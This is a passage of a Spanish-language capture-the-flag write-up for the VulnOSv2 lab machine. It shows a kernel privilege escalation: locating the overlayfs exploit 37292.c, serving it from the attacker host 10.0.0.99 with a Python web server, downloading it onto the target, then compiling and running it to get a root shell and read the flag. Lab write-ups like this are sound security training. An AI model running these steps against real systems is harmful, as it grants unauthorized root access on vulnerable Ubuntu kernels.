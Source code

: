 
Una vez adentro el usuario no levanta ningún interprete de comandos, se soluciona fácil ejecutando el siguiente comando ``/bin/bash``.

Después de buscar un rato apareció un exploit de kernel:

```console
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Lo | exploits/linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Lo | exploits/linux/local/37293.txt
----------------------------------------------------------------------------- ----------------------------------------
```
Manos a la obra.

Levanté un servidor web en python para descargarlo desde la VM atacada:

>**``python -m SimpleHTTPServer 80``**

Desde la VM atacada:

>**``http://10.0.0.99/37292.c``**

```console
webmin@VulnOSv2:~$ mv 37292.c ofs.c
webmin@VulnOSv2:~$ gcc ofs.c -o ofs
webmin@VulnOSv2:~$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
```
---

### **Flag**
---
root@VulnOSv2:/root# cat flag.txt 
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
---

